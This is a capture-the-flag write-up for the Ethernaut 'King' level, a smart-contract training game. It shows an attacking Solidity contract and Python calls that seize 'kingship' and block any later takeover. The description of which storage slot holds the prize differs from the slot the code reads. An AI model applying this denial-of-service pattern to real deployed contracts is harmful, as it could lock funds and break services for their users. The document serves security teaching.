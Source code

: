 # King

## Objectives

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

## Solution

Here all we have to do is have a contract become `king` as opposed to an ordinary address. So we create a contract that performs a low level call to send the funds (because `transfer` would run out of gas) to the King contract. The amount to send has to be greater than or equal to 0.001 ETH (1e15 wei). Once the contract takes over as king, no other contract or address can take over.

## How I did it

1. Deploy the attacking contract KingAttack (at: `0x27eb59A15364a45a53AcB341514e0fcAf44BF0Ad`)

```python
kingattack = KingAttack.deploy(EthernautInstances['king'], _from)
```

2. Call the `becomeKing()` function, while sending enough funds to take over the contract (1e15 wei = 0.001 ether) defined in the contract as follows:

```js
function becomeKing() external payable {
    (bool success,) = address(kingContract).call{value: msg.value}("");
    require(success, "Transfer failed.");
}
```

Calling it in python, we get the value directly from the King contract's storage position 2, where the prize is located (located in position 2 because it is a uin256 which occupies a full slot and the first slot is occupied by an address, also 32 bytes).

```python
kingattack.becomeKing({'value':int(web3.eth.get_storage_at(king.address, '0x01').hex(),16)} | _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xcb97566e0e4fbd7658eb587ba7d7418d54ce86830542dd567c23f73cb1b46873

3. Check that we have actually become King

```python
king_assertion = king._king() == kingattack.address
print(f'The contract address {kingattack.address} is the king: {king_assertion}')
```

With the prior knowledge that the contract cannot be taken over by a normal address or another contract, we have effectively broken the takeover mechanism.

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x9124cf8bb5f0bc17806a8264443ac0b5a3b9ea22a49818af9d1205be9dbb6aec

